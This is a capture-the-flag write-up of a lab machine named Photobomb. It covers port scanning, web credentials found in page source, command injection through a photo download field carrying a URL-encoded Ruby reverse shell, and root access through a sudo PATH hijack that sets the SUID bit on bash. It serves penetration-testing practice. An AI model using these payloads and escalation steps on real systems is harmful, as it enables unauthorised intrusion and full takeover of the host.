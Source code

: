 ### Tools:

### Vulnerabilities: 

Nmap gives shows a webpage and ssh is open.

```console
└─$ nmap -A -p- -T4 -Pn 10.129.44.124
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-13 10:04 CDT
Nmap scan report for 10.129.44.124
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.92 seconds
```

Accessing the webpage and looking at the source code we can find a username and password. ```pH0t0:b0Mb!```

http://pH0t0:b0Mb!@photobomb.htb/printer


![image](https://user-images.githubusercontent.com/105310322/195695976-b76720b2-7e3e-4d69-ab9d-9a08f19ac0ca.png)

Next we come to a page with pictures and a download section.

![image](https://user-images.githubusercontent.com/105310322/195698235-51057170-a92d-4bf5-b0be-7c14975b6f8f.png)


Before we get the the actual attack vector I tried a couple of different things.

In burp if we intercept the download page and get rid of fields except for the picture and then send it. This will actually bring us to a page that gives lots of information about what the webapp is running.

![image](https://user-images.githubusercontent.com/105310322/195699039-242afef3-3cf7-4eab-a376-e9d8f59e9b44.png)


I started with trying to exploit Sinatra with a directory traversal but the page confirmed that their were protections in place against it.

![image](https://user-images.githubusercontent.com/105310322/195699527-fc9a80e0-0ad5-46d3-90f9-037f80d8b313.png)

Also by trying to access other directories it will bring us to this page that confirms it is running Sinatra.

http://photobomb.htb/printerfriendly

![image](https://user-images.githubusercontent.com/105310322/195699688-cec33e27-e9d5-42c7-9000-94a8cc72ee7f.png)

Now on to the actual Attack Vector!


In BurpSuite intercept the ```Download Photo To Print```


ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.11",1234))'

enocode


photo=eleanor-brooke-w-TLY0Ym4rM-unsplash.jpg&filetype=jpg;%72%75%62%79%20%2d%72%73%6f%63%6b%65%74%20%2d%65%27%73%70%61%77%6e%28%22%73%68%22%2c%5b%3a%69%6e%2c%3a%6f%75%74%2c%3a%65%72%72%5d%3d%3e%54%43%50%53%6f%63%6b%65%74%2e%6e%65%77%28%22%31%30%2e%31%30%2e%31%36%2e%31%31%22%2c%31%32%33%34%29%29%27&dimensions=30x20

```console
└─$ nc -lvnp 1234                    
listening on [any] 1234 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.44.124] 49918
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
```

```console
wizard@photobomb:/tmp$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

wizard@photobomb:/tmp$ sudo PATH=/tmp\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh

```console
└─$ nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.44.124] 51630
id
uid=0(root) gid=0(root) groups=0(root)

bash-5.0# cat /dev/shm/chown
cat /dev/shm/chown
#!/bin/bash
chmod u+s /bin/bash
```

```console
wizard@photobomb:/tmp$ sudo PATH=/dev/shm\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
<n\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
wizard@photobomb:/tmp$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 09:14 /bin/bash
wizard@photobomb:/tmp$ bash -p
bash -p
bash-5.0# id
id
uid=1000(wizard) gid=1000(wizard) euid=0(root) groups=1000(wizard)
bash-5.0# 
```

```console
bash-5.0# cat /home/wizard/user.txt
cat /home/wizard/user.txt
bc45****************************
bash-5.0# cat /root/root.txt
cat /root/root.txt
5ab2****************************
```
